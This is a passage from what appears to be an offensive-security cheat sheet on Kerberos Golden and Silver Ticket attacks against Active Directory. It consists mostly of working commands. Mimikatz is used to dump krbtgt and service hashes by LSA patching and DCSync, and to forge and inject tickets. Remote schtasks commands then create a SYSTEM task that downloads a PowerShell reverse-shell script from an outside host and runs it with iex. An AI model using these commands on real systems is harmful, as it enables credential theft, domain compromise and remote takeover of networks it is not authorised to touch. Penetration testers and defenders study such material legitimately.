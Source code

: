 3. Confirm by running `klist` to view cached tickets in memory
```powrshell
klist
```
**Once** you have the **golden Ticket injected**, you can access the shared files **(C$)**, and execute services and WMI, so you could use **psexec** or **wmiexec** to obtain a shell (looks like yo can not get a shell via winrm).

## Further reading
- Explained -> [**Golden-tickets**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)
- Cheatsheet -> [**Hacktricks**](https://book.hacktricks.xyz/windows/active-directory-methodology/golden-ticket)
--- 
# Silver Ticket
## Definition
The Silver ticket attack is based on **crafting a valid TGS for a service once the NTLM hash of service is owned** (like the **PC account hash**). Thus, it is possible to **gain access to that service** by forging a custom TGS **as any user**.
## Attack
1. Dumping hashes (Requires DA privilege)
```powershell
#On DC (Nishang module)
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'

#Using DcSync (Quiter)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'
```
2. Forging the ticket
```powershell
#(Nishang module)
Invoke-Mimikatz -Command '"kerberos::golden /domain:<Domain-FQDN> /sid:<Domain-SID> /rc4:<Service-NTLM> /user:Administrator /service:<SPN> /target:<Target-Computer> /ptt"'
```
> Note:
> `/Service`: is the SPN name of service for which TGS is to be created.
  `/Target`: server hosting the attacked service for which the TGS ticket was cracked.
 
## Getting a reverse shell.

**HOST**  service
```powershell
#Forging TGS (Nishang module)
Invoke-Mimikatz -Command '"kerberos::golden /domain:<Domain-FQDN> /sid:<Domain-SID> /rc4:<Service-NTLM> /user:Administrator /service:HOST /target:<Target-Computer> /ptt"'
#Scheduling task in remote computers
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```
